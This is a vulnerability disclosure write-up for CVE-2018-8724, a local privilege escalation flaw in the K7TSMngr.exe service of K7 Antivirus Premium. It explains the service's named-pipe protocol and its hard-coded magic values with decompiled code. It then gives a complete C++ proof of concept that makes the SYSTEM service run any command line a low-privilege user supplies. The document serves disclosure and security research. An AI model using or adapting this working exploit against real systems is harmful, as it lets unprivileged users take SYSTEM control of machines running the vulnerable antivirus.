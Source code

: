 # CVE-2018-8724

# Product / Component Affected

* **Product**: *K7 Antivirus Premium 15.1.0.53* 
* **Component**: *K7TSMngr.exe 16.0.0.70*

# Summary

This is a logical flaw that will allows the creation of SYSTEM integrity processes via the pipe handler. Therefore a LOW privilege process can simply spawn up a SYSTEM process achieving LPE.

# K7TSMngr.exe Pipe Handler Background
This background piece will help understand this and will be referenced by other vulnerabilities identified in this service.

In the K7TSMngr.exe service there is an exposed pipe interface *\\\\.\\pipe\\K7TSMngrService1* which allows lower privileged processes to communicate with the K7TSMngr service running as SYSTEM, requesting certain tasks to be performed. The pipe is created (Kernel32!CreateNamedPipeA) and connected to (Kernel32!ConnectNamePipe) in the function tarting 0x409D80 (sub_409D80).

When a connection is made, the function handler routine (sub_4095A0) is called reads the input data in 2 parts:
* It reads a 28 (0x1c) byte header first which includes:
  * A magic value which you need to provide to *authenticate* with the service
  * Id of the function/service to invoke
  * Size of the input buffer
  * Size of another buffer (not 100%)
* Then it reads the actual data into newly allocated heap buffer.

Once it has all the data, it invokes *sub_409480* which enumeates through a list of pipe functions listed at 0x445B14. This list is a series of hard coded structures, each with the entry:

```C++
typedef struct _FUNCTION_ENTRY
{
    DWORD dwFunctionId;
    PVOID pfnFunction;
    DWORD dwNotSure;
} FUNCTION_ENTRY, *PFUNCTION_ENTRY
```

There are 23 functions that can be invoked, quite a few of which do interesting actions, or have vulnerabilities in them (see other CVEs).

# Details
Following on from the background piece above, if the handler is connected to from a LOW integrity process and called with function id 0x10015, it will invoke the function sub_409CA0.

The following snippet of code is from the HexRays decompiler illustrating what the function does.

```C++
//
// Structure Definitions
//
typedef struct _unk_10015
{
    DWORD dwInSize;
    DWORD dwMagic;
    DWORD dwFlags;
    DWORD dwTimeToWait
    DWORD field_10;
    CHAR szCommandLine[1024];
    CHAR szCurrentDirectory[260];
} unk_10015;


// Handler for 0x10015, sub_409CA0 or CreateProcessWrapper_2 as I named it in my view.
unk_10015 *__stdcall CreateProcessWrapper_2(int dwInSize, unk_10015 *pInput, int dwOutSize, int pOutput, int a5)
{
    if ( (unsigned int)dwInSize < 0x518 )
        return 0;
    if ( IsBadReadPtr(pInput, 0x518u) || pInput->dwInSize != 0x518 || pInput->dwMagic != 0x4B37544B )
        return 0;
    hProcess = GetProcessHeap();
    pData = (unk_10015 *)HeapAlloc(hProcess, 0, 0x518u);
    if ( !pData )
        return 0;

    // We control all of pInput, and thus pData.
    qmemcpy(pData, pInput, sizeof(unk_10015));
    dwFlags = pData->dwFlags;
    if ( dwFlags & 1 )
        // Details of this routine below... but generally calls through to a CreateProcessA call
        // with information passed to it from the calling process.
        CreateProcessWrapper(pData->szCommandLine, dwFlags, pData->szCurrentDirectory);
    
    // ...
    return result;
}


signed int __usercall CreateProcessWrapper@<eax>(CHAR *lpCommandLine_1@<eax>, char dwFlags, const CHAR *lpCurrentDirectory)
{
    // ... Locals ...

    bSuccess = 0;
    lpCommandLine = lpCommandLine_1;

    // Note: We control dwFlags so we can easily enter this
    if ( g_bFlag_WantNotZero_4494BC || !(dwFlags & 8) )
    {
        lpStartupInfo = (STARTUPINFOA *)operator new(0x44u);
        pProcInfo = (PROCESS_INFORMATION *)operator new(0x10u);
        lpProcINfo = pProcInfo;
        if ( lpStartupInfo )
        {
            if ( pProcInfo )
            {
                // ... and straight through to a create process call
                memset(lpStartupInfo, 0, 0x44u);
                lpStartupInfo->cb = 68;
                bSuccess = CreateProcessA(0, lpCommandLine, 0, 0, 0, 0x20u, 0, lpCurrentDirectory, lpStartupInfo, lpProcINfo);

    // ...

    return result;
}

```


# PoC Code
This PoC code will cause the K7TSMngr service to call Kernel32!CreateProcessA on the string provided to it on the command line.


```C++
// Includes
#include <Windows.h>
#include <stdio.h>


// unk1 - named used in IDA so kept for consistency. This is really the header of the pipe message
// which needs to be the first 0x1C bytes of every pipe message.
typedef struct _unk1
{
	DWORD dwMagic;
	DWORD dwControlCode;
	DWORD dwInSize;
	DWORD field_c;
	DWORD dwFunctionId;
	DWORD dwInputDataSize;
	DWORD dwOutputDataSize;
} unk1;

// Again, name from IDA. This is the structure of the pipe message required for the 0x1
typedef struct _unk_10015
{
	DWORD dwInSize;
	DWORD dwMagic;
	DWORD dwFlags;
	DWORD dwTimeToWait;
	DWORD dwDontCare;
	CHAR szCommandLine[1024];
	CHAR szCurrentDir[260];
} unk_10015;


int main(int argc, char** argv)
{
	if (argc != 2)
	{
		printf("Usage: <AppToRunAsSystem>\r\n");
		return 0;
	}

	HANDLE hPipe = CreateFileA("\\\\.\\pipe\\K7TSMngrService1", GENERIC_READ | GENERIC_WRITE, FILE_SHARE_READ | FILE_SHARE_WRITE, NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL);
	if (hPipe == INVALID_HANDLE_VALUE)
	{
		printf("CreateFileW Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

	unk1 u1 = { 0 };
    // The following 3 values are hard coded as they are hard coded checks at 0x4095FA
    u1.dwMagic = 0x4B375453;
	u1.dwControlCode = 0x1010;
	u1.dwInSize = 28;

    // Function to call
	u1.dwFunctionId = 0x10015;
	u1.dwInputDataSize = 0x518;
	u1.dwOutputDataSize = 0x100;	

    // Send the header
	DWORD dwBytesWritten = 0;
	if (!WriteFile(hPipe, &u1, sizeof(u1), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    // Fill in and send over the data packet to the service.
	unk_10015 apiCall = { 0 };
	apiCall.dwInSize = 0x518;
	apiCall.dwMagic = 0x4B37544B;
	apiCall.dwFlags = 1; // We don't want 8 set
	strncpy_s(apiCall.szCommandLine, argv[1], 1024);
	strncpy_s(apiCall.szCurrentDir, "C:\\", 260);

	if (!WriteFile(hPipe, &apiCall, sizeof(apiCall), &dwBytesWritten, NULL))
	{
		printf("WriteFile 1 Failed: 0x%08x\r\n", GetLastError());
		return 0;
	}

    return 0;
}


```
